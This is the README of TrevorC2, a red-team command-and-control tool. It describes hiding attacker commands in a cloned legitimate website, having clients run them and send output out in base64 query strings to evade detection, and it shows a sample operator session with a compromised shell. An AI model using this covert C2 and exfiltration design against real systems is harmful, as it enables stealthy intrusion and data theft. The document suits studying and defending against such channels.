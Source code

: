trevorc2
=======

# TrevorC2 - Command and Control via Legitimate Behavior over HTTP

Written by: Dave Kennedy (@HackingDave)
Website: https://www.trustedsec.com

Note that this is a very early release - heavy randomization and encryption to be added soon.

TrevorC2 is a client/server model for masking command and control through a normally browsable website. Detection becomes much harder as time intervals are different and does not use POST requests for data exfil. 


           ,  .'''''.  ...    ''''',  .'           
            ','     ,.MMMM;.;'      '.             
             ;;    ;MMMMMMMMM;     ;;'             
            :'M:  ;MMMMMMMMMMM;.  :M':             
            : M:  MMMMMMMMMMMMM:  :M  .           
           .' M:  MMMMMMMMMMMMM:  :M. ;           
           ; :M'  :MMMMMMMMMMMM'  'M: :           
           : :M: .;"MMMMMMMMM":;. ,M: :           
           :  ::,MMM;.M":::M.;MMM ::' :           
         ,.;    ;MMMMMM;:MMMMMMMM:    :,.         
         MMM.;.,MMMMMMMM;MMMMMMMM;.,;.MMM         
         M':''':MMMMMMMMM;MMMMMMMM: "': M         
         M.:   ;MMMMMMMMMMMMMMMMMM;   : M         
         :::   MMMMMMMMMMM;MMMMMMMM   ::M         
        ,'';   MMMMMMMMMMMM:MMMMMMM   :'".         
      ,'   :   MMMMMMMMMMMM:MMMMMMM   :   '.       
     '     :  'MMMMMMMMMMMMM:MMMMMM   ;     '     
     ,.....;.. MMMMMMMMMMMMM:MMMMMM ..:....;.     
     :MMMMMMMM MMMMMMMMMMMMM:MMMMMM MMMMMMMM:     
     :MM''':"" MMMMMMMMMMMMM:MMMMMM "": "'MM:     
      MM:   :  MMMMMMMMMMMMM:MMMMMM  ,'  :MM       
      'MM   :  :MMMMMMMMMMMM:MMMMM:  :   ;M:       
       :M;  :  'MMMMMMMMMMMMMMMMMM'  :  ;MM       
       :MM. :   :MMMMMMMMMM;MMMMM:   :  MM:       
        :M: :    MMMMMMMMM'MMMMMM'   : :MM'       
        'MM :    "MMMMMMM:;MMMMM"   ,' ;M"         
         'M  :    ""''':;;;'''""    :  M:         
         ;'  :     "MMMMMMMM;."     :  "".         
       ,;    :      :MMMMMMM:;.     :    '.       
      :'     :    ,MM'''""''':M:    :     ';       
     ;'      :    ;M'         MM.   :       ;.     

There are two components to TrevorC2 - the client and the server. The client can be configured to be used with anything. In this example it's coded in Python but can easily be ported to C#, PowerShell, or whatever you want. Currently the trevorc2_client.py supports Windows, MacOS, and Linux. You can always byte compile the Windows one to get an executable, but preference would be to use Windows without having to drop an executable as a stager.

The way that the server works is by tucking away a parameter thats right before the </body> parameter. This is completely configurable, and it's recommended you configure everything to be unique in order to evade detection. Here is the workflow:

    1. trevor2_server.py - edit the file first, and customize, what website you want to clone, etc. The server will clone a website of your choosing and stand up a server. This server is browsable by anyone and looks like a legitimate website. Contained within the source is parameter that (again is configurable), which contains the instructions for the client. Once a client connects, it searches for that parameter, then uses it to execute commands.
    2. trevor2_client.py - all you need in any configurable option is the ability to call out to a website, parse some basic data, and then execute a command and then put the results in a base64 encoded query string parameter to the site. That's it, not hard. 

## Installation

pip install -r requirements.txt

## Usage

First edit the trevor2_server.py - change the configuration options and site to clone.

python trevor2_server.py

Next, edit the trevor2_client.py - change the configuration and system you want it to communicate back to. 

python trevor2_client.py

## Session Management

TrevorC2 supports the ability to handle multiple shells coming from different hostnames. The way TrevorC2 works is it will identify new hostnames as sessions. You can interact with the sessions once you execute a command. If you have multiple sessions, you can type a command and interact with that session based on the session number stored globally. 

When first starting TrevorC2, you can type help or ? for additional information. Basic command usage is "list" which will list any active shells or none at all, or "interact <session_id>" to interact with the shell you want. 

You can always type back/exit within a shell, it will still remain active and not actually kill the shell.

Example below:

```
root@stronghold:/home/relik/Desktop/git/trevorc2# python trevorc2_server.py 

TrevorC2 - Legitimate Website Covert Channel
Written by: David Kennedy (@HackingDave)
https://www.trustedsec.com
[*] Cloning website: https://www.google.com
[*] Site cloned successfully.
[*] Starting Trevor C2 Server...
[*] Next, enter the command you want the victim to execute.
[*] Client uses random intervals, this may take a few.
[*] Type help for usage. Example commands, list, interact.

trevorc2>help
*** TrevorC2 Help Menu ***


Command Usage:

list - will list all shells available
interact <id> - allow you to select which shells to interact with

trevorc2>list

*** Available TrevorC2 Shells Below ***

No available TrevorC2 shells.

trevorc2>
*** Received connection from 127.0.0.1 and hostname stronghold for TrevorC2.

trevorc2>list

*** Available TrevorC2 Shells Below ***

Format: <session_id> <hostname>:<ipaddress>

1. stronghold:127.0.0.1 (Trevor C2 Established)


trevorc2>interact 1
[*] Dropping into trevorc2 shell...
[*] Use exit or back to select other shells
stronghold:trevorc2>ifconfig
[*] Waiting for command to be executed, be patient, results will be displayed here...
[*] Received response back from client...
=-=-=-=-=-=-=-=-=-=-=
(HOSTNAME: stronghold
CLIENT: 127.0.0.1)
ens33     Link encap:Ethernet  HWaddr 00:0c:29:63:7c:67  
          inet addr:172.16.37.132  Bcast:172.16.37.255  Mask:255.255.255.0
          inet6 addr: fe80::4b6b:fb52:f109:a7af/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1400907 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2588882 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:835091244 (835.0 MB)  TX bytes:2623070556 (2.6 GB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:453640 errors:0 dropped:0 overruns:0 frame:0
          TX packets:453640 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:211565776 (211.5 MB)  TX bytes:211565776 (211.5 MB)


stronghold:trevorc2>back
trevorc2>exit
[*] Exiting TrevorC2... 
```
## TODO

#### Add ability for longer than 2048 data output. Query string parameter length limited size length.
#### Add do_POST support for POST exfil on longer data.
#### Add upload/download functionality.
